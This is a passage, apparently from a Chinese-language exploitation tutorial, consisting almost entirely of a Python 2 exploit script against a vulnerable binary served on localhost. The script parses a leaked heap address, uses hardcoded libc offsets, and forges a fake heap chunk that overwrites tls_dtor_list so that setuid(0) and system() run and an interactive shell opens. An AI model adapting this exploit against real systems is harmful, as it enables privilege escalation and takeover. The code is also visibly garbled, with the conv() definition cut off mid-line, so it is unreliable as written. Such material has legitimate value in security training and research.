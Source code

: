 使用所有这些信息，让我们编写利用程序来攻击漏洞二进制`vuln`：

利用代码：

```py
#exp.py
#!/usr/bin/env python
import struct
import sys
import telnetlib
import time

ip = '127.0.0.1'
port = 1234

def conv(num): return struct.pack("<I
def send(data):
 global con
 con.write(data)
 return con.read_until('\n')

print "** Bruteforcing libc base address**"
libc_base_addr = 0xb756a000
fd_nextsize = (libc_base_addr - 0x1000) + 0x6c0
system = libc_base_addr + 0x3e6e0
system_arg = 0x80482ae
size = 0x200
setuid = libc_base_addr + 0xb9e30
setuid_arg = 0x0

while True:
 time.sleep(4)
 con = telnetlib.Telnet(ip, port)
 laddress = con.read_until('\n')
 laddress = laddress[8:12]
 heap_addr_tup = struct.unpack("<I", laddress)
 heap_addr = heap_addr_tup[0]
 print "** Leaked heap addresses : [0x%x] **" %(heap_addr)
 heap_base_addr = heap_addr - 0x10
 fd = heap_base_addr + 0x410
 bk = fd
 bk_nextsize = heap_base_addr + 0x618
 mp = heap_base_addr + 0x18
 nxt = heap_base_addr + 0x428

 print "** Constructing fake chunk to overwrite tls_dtor_list**"
 fake_chunk = conv(fd)
 fake_chunk += conv(bk)
 fake_chunk += conv(fd_nextsize)
 fake_chunk += conv(bk_nextsize)
 fake_chunk += conv(system)
 fake_chunk += conv(system_arg)
 fake_chunk += "A" * 484
 fake_chunk += conv(size)
 fake_chunk += conv(setuid)
 fake_chunk += conv(setuid_arg)
 fake_chunk += conv(mp)
 fake_chunk += conv(nxt)
 print "** Successful tls_dtor_list overwrite gives us shell!!**"
 send(fake_chunk)

 try: 
  con.interact()
 except: 
  exit(0)
```